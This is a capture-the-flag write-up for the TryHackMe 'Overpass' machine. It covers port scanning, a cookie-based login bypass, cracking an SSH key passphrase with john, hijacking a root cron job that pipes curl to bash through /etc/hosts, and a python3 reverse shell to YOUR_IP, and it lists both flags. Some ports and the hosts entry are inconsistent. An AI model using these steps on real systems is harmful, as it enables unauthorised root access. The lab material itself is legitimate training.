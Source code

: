 13.09.2020 | Felix Strobel ([relevant](https://tryhackme.com/p/relevant))

# Overpass

  - [Task 1](#task-1)

## Task 1

<i>To get some informations about the system we can make a simple [nmap](https://nmap.org) scan. Using the `-sC` flag to use the default scripts and the `-sV` flag to determine versions of the services.<br>
The full command looks like this: `nmap -sC -sV MACHINE_IP`<br>
After scanning we can see a ssh and an http service running.</i>

<pre>
PORT   STATE SERVICE VERSION
22/tcp open  <b>ssh</b>     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  <b>http</b>    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>

<i>Looking at the website does show us a link to a download page and gives us the possibility to download the source code. Now we can make a simple [gobuster](https://github.com/OJ/gobuster) scan for good practive and to be sure we did not missed any important informations. We will use the `-u` to specify our target and the `-w` to specify a wordlist. I am using the [`common.txt`](https://gitlab.com/kalilinux/packages/dirb/-/blob/kali/master/wordlists/common.txt).<br>
The full command looks like this: `gobuster dir -u "http://MACHINE_IP" -w ./common.txt`<br>
When the scan finsihes we see a `/admin` directory we haven't seen before.</i>

<pre>
/aboutus (Status: 301)
<b>/admin</b> (Status: 301)
/css (Status: 301)
/downloads (Status: 301)
/img (Status: 301)
/index.html (Status: 301)
</pre>

<i>Looking at it shows us a login form. With having a look on the source code we can see a `login.js` file which is loaded when the `body` element is loaded. When searching in the `login.js` file for a vulnerability we can recognize that the `SessionToken` cookie has to be set and there is no validation. We can open our webbrowser and open the developer console and switch to the Application tab. Under cookies we can create our own one and name it `SessionToken`. The value does not matter. Then we can reload the page and see that we are 'logged' in. The webpage shows us now a ssh private key.</i>

<pre>
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----
</pre>

<i>Lets safe this key on our machine as `id_rsa`. But now we need a password for the key. We will use [`ssh2john.py`](https://www.openwall.com/john) to create a hash.<br>
The full command looks like this: `python ./ssh2john.py ./id_rsa > id_rsa.hash`<br>
Great, now we can use [`john`](https://www.openwall.com/john) to crack the hash. To specify we use the `--wordlist` flag. Our wordlist will be the [`rockyou.txt`](https://gitlab.com/kalilinux/packages/wordlists/-/blob/kali/master/rockyou.txt.gz).<br>
The full command looks likethis: `john --wordlist=./rockyou.txt id_rsa.hash`<br>
John returns us the following and presents the cracked password.</i>

<pre>
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 12 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
<b>james13</b>          (./id_rsa)
1g 0:00:00:02 DONE (2020-09-13 11:07) 0.4347g/s 6235Kp/s 6235Kc/s 6235KC/s  0125457423 ..*7¡Vamos!
Session completed
</pre>

<i>Now we have a ssh key and the password. Before logging in with: `ssh -i ./id_rsa james@MACHINE_IP` we have to set the permissions on the `id_rsa` file using `chmod 600 id_rsa`. And here we go we are logged in as james. And in the home directory we can find the `ùser.txt` file.</i>

1. Hack the machine and get the flag in `user.txt`.<br>
   `thm{65c1aaf000506e56996822c6281e6bf7}`

<i>In the home directory we can also find a `.overpass` file and we can `cat` it out.</i>

<pre>[{"name":"System","pass":"saydrawnlyingpicture"}]</pre>

<i>Did he really stored his root password here? Trying switcing the user to root does not work. Lokking at the `/etc/crontab` file shows us a a cronjob runnig as root.</i>

<pre>
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * * <b>root curl overpass.thm/downloads/src/buildscript.sh | bash</b>
</pre>

<i>Ok he tries to fetch a file from overpass.thm. Maybe we can change the overpass.thm to point to our ip adress. To do so we have to edit the `/etc/hosts` file using nano.<br>
The full command looks like this: `nano /etc/hosts`<br>
Then you have to edit the content to look like the following. The YOUR_IP should be your internal tryhackme adress.</i>

<pre>
127.0.0.1 localhost
127.0.1.1 overpass-prod
<b>YOUR_IP:8000 overpass.thm</b>
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
</pre>

<i>That's done so let's move on and create a file called `buildscript.sh` in the folder structure `downloads/src/`. Create these folders depending to your server. Into the `buildscript.sh` we paste a reverse shell from [pentestmonkey.net](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).</i>

<pre>
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
</pre>

<i>Now we have to set up a smal server and a netcat listener.<br>
The server command: `sudo python3 -m http.server 80`<br>
The netcat listener: `nc -lnvp 8080`<br>
After some waiting our netcat listener catches the reverse shell. And we became root! We can `cat` the `root.txt`.</i>

2. Escalate your privileges and get the flag in `root.txt`.<br>
   `thm{7f336f8c359dbac18d54fdd64ea753bb}`
